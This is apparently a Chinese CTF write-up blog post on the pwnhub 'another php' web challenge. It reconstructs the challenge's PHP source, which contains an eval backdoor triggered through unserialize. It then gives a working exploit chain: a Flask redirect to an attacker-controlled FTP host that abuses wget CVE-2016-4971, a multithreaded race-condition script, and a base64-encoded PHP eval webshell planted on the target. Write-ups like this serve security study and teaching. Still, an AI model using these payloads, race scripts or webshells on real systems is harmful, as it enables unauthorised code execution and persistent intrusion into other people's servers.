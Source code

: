 ```yaml
---
title: pwnhub_another php web部分
date: 2017-03-05 21:22:23
tags:
- pwnhub
- php
- wget
categories:
- Blogs
---
```


周末不是太有时间，所以就没怎么打pwnhub，后来快结束的时候完成了web部分，这里贴上web部分的wp吧

<!--more-->

开始没啥可说的，应该是用来当一些咸鱼的吧，index.php~

![image_1bafa2nvpl7hl7n14d71sjk4g3m.png-15.1kB][1]

登陆框，验证码很普通的，没啥可说的，试了试没啥可玩的，那就扫目录，找到了.svn

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/

400
```

跑脚本拖源码报错了，搜了搜好像是拖的数据库报错了，所以手动看看，好像是内容被改过了

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/wc.db

Myname:Pwnhub{6666666flag}
havefun:)

用户名和密码相同

The a9b4d7cc810da015142f61f7e236d50b.php:)Welcome Pwnhub{6666666flag}
```

![image_1bad45g037c73iessr9qgp4u9.png-33.2kB][2]

源码是phpjm加密，没啥可说的，直接工具解

[http://tool.lu/php/](http://tool.lu/php/)

拿到源码

```
<?php
error_reporting(E_ALL);
$firesun_path = '';
class Pwnhub
{
    function __wakeup()
    {
        if (isset($_GET['pwnhub']) == "firesun") {
            echo "Hacked by Firesun!";
            eval(base64_decode($_POST['pwnhub']));
        }
    }
}
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}
session_start();
register_shutdown_function('pwnhubfile');
function set_context($id)
{
    global $_SESSION, $firesun_path;
    $firesun_path = '/var/www/data/' . $id;
    if (!is_dir($firesun_path)) {
        mkdir($firesun_path);
    }
    chdir($firesun_path);
    if (!is_file('firesun')) {
        $_SESSION = array();
    } else {
        $_SESSION = unserialize(file_get_contents('firesun'));
    }
}
function download_image($url)
{
    $url = parse_url($origUrl = $url);
    if (isset($url['scheme']) && $url['scheme'] == 'http') {
        if ($url['path'] == '/pwnhub.png') {
            if (isset($url['query'])) {
                die('byebyebye');
            }
            wget_wrapper($origUrl);
            echo "Nice:)";
        } else {
            echo 'sorry!';
        }
    }
}
if (!isset($_SESSION['id'])) {
    $sessId = bin2hex(openssl_random_pseudo_bytes(10));
    $_SESSION['id'] = $sessId;
} else {
    $sessId = $_SESSION['id'];
}
session_write_close();
set_context($sessId);

if (isset($_POST['image'])) {
    $p = $_POST['image'];
    if (stripos($p, 'php')) {
        echo 'wow!!!';
        die('byebye');
    }
    download_image($p);
    echo '<img src="pwnhub.jpg" width=184 height=200/>';
} else {
    die('no image:(');
}
?>
<!-- pwnhubs0urcec0d3.zip -->
<?php 
```

关键问题在于怎么控制firesun文件内容....

我们看看提示

```
2017.03.04 21:20:00wget_wrapper就是wget，不要想着在url上做文章进行命令执行，过滤很严，wget版本较低，wget版本较低，wget版本较低，重要的话说三遍
```

根据提示和源码，我们发现是SECUINSIDE CTF Quals 2016 - Trendyweb改的，然后找到wget漏洞CVE-2016-4971，发现一篇wp

[http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/](http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/)

根据wp自己研究发现简单的方式被和谐了，所以只能竞争解决问题。

这里稍微梳理下竞争逻辑：

1、访问的时候会生成独有的sessionid，并执行`set_context($sessId);`，获取firesun文件内容。

2、在第一次请求结束后，pwnhubfile会执行生成firesun

```
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}

register_shutdown_function('pwnhubfile');
```

但最重要的问题wget是不能覆盖文件的，如果wget相同文件名的，会出现firesun.1。

也就是说第一次请求结束还没能反序列化成功，就代表这里失败了。

所以我们每个sessionid只能使用一次，这里需要一个成熟的多线程脚本。




先配个线上环境，开一个flask加个跳转至ftp
```
#!/usr/bin/env python
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/pwnhub.png")
def test():
    return redirect("ftp://119.29.192.14/firesun")

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=8082)

```

然后另一个地方开个ftp，端口设为默认21

```
sudo python -m pyftpdlib -p 21
```

目录下写个firesun
```
O:6:"Pwnhub":0:{}
```

多线程脚本
```
import requests
import threading
import time
from random import Random

url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"

def down(cookie):

    data = {'image': 'http://119.29.192.14:8082/pwnhub.png'}

    r = requests.post(url, data = data, cookies=cookie)


def ri(cookie):
    s = requests.Session()

    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7'}

    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text


def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str

for i in range(0,10000):

    session = random_str(26)

    cookie = {'PHPSESSID': session}

    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()

```

能成功，但是几率不高，我们把shell写入到image/下

踩了个蜜汁坑，base64_decode过后会把`<?php ?>`中间的东西省略掉...所以又加了一层。

```
<?php eval($_POST[2]);?


file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/ddoge.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMl0pOz8+"));


ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7
```

很多函数都过滤了，所以只有eval的webshell
```
exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	
```

![image_1baf7qq8413qm1l5j8ff1dnn9u39.png-84.9kB][3]


听ven师傅说后面是pwn php，我就不自寻死路了，就到这里


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3ahdwdvid617k41przx54lx5/image_1bafa2nvpl7hl7n14d71sjk4g3m.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/w71w0hbgw4cnrhafki8fft94/image_1bad45g037c73iessr9qgp4u9.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kiqpvpnu7yxvoyh58t42bwjh/image_1baf7qq8413qm1l5j8ff1dnn9u39.png